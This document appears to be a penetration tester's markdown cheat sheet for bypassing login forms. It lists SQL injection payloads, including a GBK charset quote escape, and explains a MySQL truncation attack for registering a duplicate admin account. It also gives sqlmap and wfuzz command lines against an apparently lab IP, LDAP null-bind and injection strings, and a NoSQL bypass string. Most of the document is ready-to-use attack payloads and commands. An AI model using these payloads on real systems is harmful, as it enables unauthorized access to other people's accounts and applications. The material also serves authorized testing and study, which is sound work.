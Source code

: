 Login_form_bypass

## SQLi

### mysql

`admin' OR 1=1-- `(don't forget the last space in mysql)

- sometimes if you have multiple result it will not work, try

`admin' OR 1=1 LIMIT 1-- `(don't forget the last space in mysql)

- sometimes spaces are filtered, try with a tabulation (%09) 

- you can also replace `--` by `#` if necessary (`%23`)

- `OR` could be replace by `||`

- `1=1` could be just `1`

- GBK is a character set for simplified Chinese. Using the fact that the database driver and the database don't "talk" the same charset, it's possible to generate a single quote and break out of the SQL syntax to inject a payload. Using `\xBF'` url encoded `%bf%27`, you have a single quote that will not get escaped properly. It commes from the execution of this : `SET CHARACTER SET 'GBK';`


## SQL Truncate

- Do not hesitate to retry multiple times

- If the user input value is not validating for its length, then a truncation vulnerability can arise. If the MySQL is running in default mode, Administrator account as admin, the database column is limited to 20 characters.

- Now what’s happening in the backend database? By default, MySQL will truncate longer strings than the defined maximum column width and only emit a warning. But those warnings are usually are seen only in the backend database, not by web applications, and are therefore not handled at all. MySQL does not compare strings in binary mode. By default, more relaxed comparison rules are used. One of these relaxations is that trailing space characters are ignored during the comparison. This means the string ‘admin ‘ is still equal to the string ‘admin’ in the database. And therefore, the application will refuse to accept the new user. If the attacker provides ‘admin ninja’ and the application searches in the database for this user, and it can’t find it because the username column name is limited to 20 characters and the attacker supplied 21 characters, the application will accept the new username and insert into the database. Due to the 20 character column length, the application will truncate the username and insert it as ‘admin ‘. Now the table contains two admin users, ‘admin’ and ‘admin ‘.

- The first thing we know is the default admin account exists, now we check for the username character limit, if there is any limit or not. We verify that the username with 20 characters is able to register. The application is accepting up to 20 characters, and rest of the characters are not accepted. So here we can perform the truncation attack. So again we try to register a user with username ‘admin ninjasecurity’, it is 33 characters and the password is pass@123

- If something is wrong when you submit it from the browser, try to modify it with burp 




https://resources.infosecinstitute.com/sql-truncation-attack/

---

## Bypass auth login

Use the intruder with a payloadallthethings file :
- load payloads in username
- write whatever you want in password field (pass for example)
- check : **size / resp body / code / reason**

Find payloads in this fabulous cheat sheet : https://portswigger.net/web-security/sql-injection/cheat-sheet


---

## MySQL bypass login form

- By default, MySQLL will perform a case insensitive comparison, so admin Admin and AdMin are the same account. When a user is created, the comparison could be done programatically, but when you try to login, the comparison is done by the database. Try to create AdMin !
- Another test: mysql ignores traling space (admin[space])

---

## SQLMap (USE AT YOUR OWN RISK !)

- Intercept your request with burpsuite and then run sqlmap on it : ```sqlmap -level=5 -risk=3 -p username -r \<yourfile\>``` 
- If you manual tested it before and it should work (because you test for example admin and have an input, and admin' -- and the same input) add ```--string='\<message appeared\>'```
- As always, if sqlmap from the repo doesn't work with ```-r```, download from Git.

---

## WFuzz to enumerate the usernames when you detect a specific message  

- ```wfuzz -c -z file,SecLists/Usernames/Names/names.txt --hs "Try again" -d "username=FUZZ&password=anything" http://10.10.10.73/login.php```

---

## LDAP

- Some LDAP servers authorise NULL Bind. Try to remove all the data in the post request to see if you manage to authenticate.

- Knowing the syntax of LDAP, you can try to abuse it : `username=<user>&password=<password>`
(&(username=<user>)(password=<password>))
So, to bypass this :
(&(username=test)(cn=*)NULL byte)
`hacker)(cn=*))%00`

- Try also just * in login and password

https://book.hacktricks.xyz/pentesting-web/ldap-injection

---

## What can it be ?

- MySQL
- MSSQL
- NoSQL (MongoDB, for example for a login bypass : `' || 1==1%00'`
) (To comment the end : `%00`, `//`, `<!--`)
- XPATH

For each one, refer to the cheat sheet.

